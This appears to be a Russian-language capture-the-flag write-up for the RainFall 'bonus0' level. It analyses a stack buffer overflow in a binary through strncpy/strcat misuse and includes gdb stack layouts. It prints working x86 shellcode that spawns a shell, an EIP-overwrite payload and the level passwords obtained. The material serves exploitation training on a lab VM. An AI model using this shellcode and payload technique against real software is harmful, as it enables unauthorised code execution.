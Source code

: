 ### bonus

0. Заходим под пользователем: `ssh bonus@172.16.188.131 -p 4242` / `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

1. Запускаем бинарник `./bonus` видим что нам предлагается что-то ввести и потом еще раз:

```
bonus0@RainFall:~$ ./bonus0
 -
aaa
 -
bbb
aaa bbb
```

Что делает бинарник? Считывает поочередно строки и скеивает их с пробельным разделителем.

2. Запускаем бинарник на граничных тестах:

- Сначала первая большая строка:

```
bonus0@RainFall:~$ ./bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
b
aaaaaaaaaaaaaaaaaaaab b
```

- Затем первая и вторая большие строки:

```
bonus0@RainFall:~$ ./bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
?aaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb??? bbbbbbbbbbbbbbbbbbbb???
Segmentation fault (core dumped)
```

Вывод есть какая-то проблема с переполнением, программа работает не так как нужно да еще и получаем `Segmentation fault (core dumped)`

3. Залезем "под капот" `gdb ./bonus0`

- Видим что глобальных переменных нет
- Видим что есть три функции `p`, `pp`, `main`

4. Воспроизведем возможный исходный кода
5. Понимаем что у нас есть:

- результирующая строка на примерно на 42 байта
- есть две донор строки в функции `pp`, притом что str1 и str2 идут следом
- есть огромный стек на 4100 байт который никак не используется, посути из этого стека забирается всего 20 байтов

6. Из уязвимых мест:

- есть вот такая строка `*strchr(buff, '\n') = 0`, условно если мы ввели 100500 символов, в конце поставим '\n' но в донор функцию мы заберем ровно 20 байт, причем эта строка не будет завершена \n
- есть `strcat(buff, str2)` и мы знаем что эту функцию можно просто переполнить

7. Прочитав кучу решений бонуса я так и не понял для чего нам тут заполнять полностью вторую строку, я [распечатал стек](https://docs.google.com/spreadsheets/d/1H5iB0JTp7LUWYwOSUbgJxPUX6dzPQ6IhI4dHI_tYsoI/edit#gid=0)

8. Прохождение:
   - Заполняем первую строку уже на известным шелкодом

```
export SHELLCODE=`python -c 'print("\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
```

- Ищем адрес на переменную окружения:

```
import ctypes
libc = ctypes.CDLL("libc.so.6")
getenv = libc.getenv
getenv.restype = ctypes.c_voidp
print('%08x' % getenv('SHELLCODE'))
----------------------------------------------------------------
>>> bffff4ea
```

- Подбираем последовательность так, чтобы попасть на адрес eip
```
bonus0@RainFall:~$ (python -c "print('A' * 20)";     python -c "print('B' * 9 + '\xea\xf4\xff\xbf' + 'B' * 7)"; cat) | ~/bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBB????BBBBBBB??? BBBBBBBBB????BBBBBBB???
$ whoami
bonus1
$ cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

### Слепки стеков:
- Слепок функции `main`

```
eax = esp + 0x16 = esp + 22;


ebp  0xbffff738               |


ebp - 50 = esp + 0x16 = esp + 22 |  result = (0xbffff710) 0123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa




esp = ebp - 0x40 = ebp - 64   | esp + 0x16 = esp + 22
```

- Слепок функции `pp`

```

0x80486a0 = ' - '
0x80486a4 = " "
eax = 0
edx = param1
ebx = 0x0486a4
ecx = ebp - 0x3c = ebp - 60
param1 = ebp + 8
eip = ebp + 4
ebp                              |

ebp - 9                          | str2.finish (0xBFFFF6DF) a
(всего 20 байт)     20 байт -                               Aa0Aa1Aa2Aa3Aa4Aa5Aa
ebp - 0x1c = ebp - 28            | str2.start (0xBFFFF6CC)  A
ebp - 29                         | str1.finish (0xBFFFF6CB) 9
               (всего 20 байт)     20 байт -                01234567890123456789
ebp - 0x30 = ebp - 48 = esp + 32 | str1.start (0xBFFFF6B8)  0

ebp - 0x3c = ebp - 60            | 0xffffffff


esp + 8                          |
esp + 4                          | ebp - 0x1c = ebp - 28
esp = ebp - 0x50 = ebp - 80      | param1
```

- Слепок функции `p`

```
eax =

eax = ebp - 0x1008 (4104)
param2 = ebp + 12 = ebp + 0xc = ' - '
param1 = ebp + 8 = ebp_pp - 0x30 = ebp_pp - 48 = esp_pp + 32
eip = ebp + 4
ebp                              |



ebp - 0x1008 (4104)



exp + 8                                | 0x14(20)
esp + 4                                | ebp - 0x1008 (4104)
esp = ebp - 0x1018 = ebp - 4120        | ebp_pp - 0x30 = ebp_pp - 48 = esp_pp + 32
```

01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa
